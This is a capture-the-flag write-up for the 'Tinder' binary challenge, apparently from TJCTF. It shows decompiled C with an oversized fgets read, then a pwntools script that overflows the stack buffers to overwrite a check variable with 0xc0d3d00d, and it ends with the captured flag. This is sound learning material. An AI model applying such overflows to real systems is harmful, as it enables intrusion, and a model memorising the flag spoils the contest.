

# Tinder



We are given an [ELF 32-bit binary](match). Let's perform a buffer overflow.

I decompiled the binary in [ghidra](https://ghidra-sre.org/) to see what it does.

```c
int input(char *str,float f)
{
  size_t sVar1;
  char *pcVar2;

  fgets(str,(int)ROUND(f * 16.00000000),stdin);
  sVar1 = strlen(str);
  if (1 < sVar1) {
    pcVar2 = strchr(str,10);
    if (pcVar2 == (char *)0x0) {
      do {
        str = (char *)fgetc(stdin);
      } while (str != (char *)0xa);
    }
    else {
      sVar1 = strlen(str);
      str = str + (sVar1 - 1);
      *str = '\0';
    }
    return (int)str;
  }
  puts("No input detected. Registration failed.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

int main(void)
{
  char local_a8 [32];
  char local_88 [64];
  char local_48 [16];
  char local_38 [16];
  char local_28 [16];
  FILE *local_18;
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0;
  setup();
  puts("Welcome to TJTinder, please register to start matching!");
  printf("Name: ");
  input(local_28,1.00000000);
  printf("Username: ");
  input(local_38,1.00000000);
  printf("Password: ");
  input(local_48,1.00000000);
  printf("Tinder Bio: ");
  input(local_88,8.00000000);
  putchar(10);
  if (local_14 == -0x3f2c2ff3) {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("It\'s a match!");
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("Flag File is Missing. Contact a moderator if running on server.");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_a8,0x20,local_18);
    printf("Here is your flag: %s",local_a8);
  }
  else {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("Sorry, no matches found. Try Again!");
  }
  return 0;
}
```

The executable asks for four inputs, Name, Username, Password, and Tinder Bio. It then checks if `local_14` is equal to `0xc0d3d00d`. If it is, it prints the flag.

I made a python script to overwrite local_14 with `0xc0d3d00d`. I decided to use the final input for whatever reason. I overwrote all the other string buffers and the file pointer with passing to get to `local_14`. Then, all that's left is to overwrite `local_14` with `0xc0d3d00d`.

```python
from pwn import *

if 'rem' in sys.argv:
    r = remote('p1.tjctf.org', 8002)
elif 'file' in sys.argv:
    class getPayload:
        def __init__(self):
            self.payload = b''
        def send(self, oper):
            self.payload += oper
        def interactive(self):
            file = open('payload', 'wb')
            file.write(self.payload)
            file.close()
    r = getPayload()
else:
    r = process('./match')

for i in range(3):
    r.send(b'a\n')

filler = b'B9alaLbY4e2rTxuWlzHbzvk7K8bKD08bpJrNsivp1AxxTcz9lCCiN3TFMLjH09rcQe5RQfp0CynfYbfZIiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT'

r.send(filler)
r.send(p32(0xc0d3d00d))
r.send(b'\n')

r.interactive()
```

I got the filler data by using an online random string generator and then finding the end of the padding using gdb, but you can easily just count the bytes.

```c
char local_88 [64];
char local_48 [16];
char local_38 [16];
char local_28 [16];
FILE *local_18;
int local_14;
```

```python
filler = b'A' * (64 + 16 + 16 + 16 + 4)
```

Now that I think about it, that may have been smarter.

```python
$ py sol.py rem
[+] Opening connection to p1.tjctf.org on port 8002: Done
[*] Switching to interactive mode
Welcome to TJTinder, please register to start matching!
Name: Username: Password: Tinder Bio:
Registered 'IiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```

Flag: `tjctf{0v3rfl0w_0f_m4tch35}`
